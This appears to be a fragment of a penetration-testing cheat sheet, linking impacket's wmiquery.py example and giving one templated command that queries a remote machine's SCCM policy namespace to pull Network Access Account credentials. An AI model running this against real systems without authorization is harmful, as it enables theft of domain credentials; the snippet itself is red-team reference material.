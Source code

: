 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiquery.py

### Query computer for Network Access Account credentials (SCCM)
```
impacket-wmiquery -rpc-auth-level privacy -namespace '//./root/ccm/policy/Machine/ActualConfig' <domain>/<user>:<password>@<rhost>
```

